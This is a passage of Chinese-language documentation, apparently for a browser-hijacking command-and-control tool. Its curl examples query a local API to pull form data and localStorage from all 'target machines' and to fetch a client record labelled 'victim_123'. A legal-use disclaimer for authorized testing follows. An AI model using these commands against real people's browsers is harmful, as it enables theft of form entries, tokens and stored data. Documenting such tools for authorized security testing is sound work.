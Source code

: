 ```bash
  }
}
```

### 示例 4: 从所有靶机获取表单信息
```bash
curl -X POST "http://localhost:8088/api/commands" \
  -H "Content-Type: application/json" \
  -d '{
    "command": "forms"
  }'
```

### 示例 5: 获取特定客户端信息
```bash
curl -X GET "http://localhost:8088/api/clients/victim_123"
```

### 示例 6: 获取本地存储数据
```bash
curl -X POST "http://localhost:8088/api/commands" \
  -H "Content-Type: application/json" \
  -d '{
    "command": "localStorage"
  }'
```

---

## ⚖️ 法律和道德使用

**重要提醒:** 此工具设计用于:
- ✅ 授权渗透测试
- ✅ 自有系统的安全研究
- ✅ 教育目的
- ✅ 经过授权的漏洞评估

**禁止用于:**
- ❌ 未授权访问系统
- ❌ 恶意攻击
- ❌ 非法活动

在测试任何系统之前，请务必确保您拥有适当的授权。

---

## 📞 技术支持

如有问题或需要帮助，请参考：
- 📖 [README.md](../README.md) - 项目概述和快速开始
- 🏗️ 源代码注释 - 详细的实现说明
- 🔧 日志输出 - 运行时调试信息
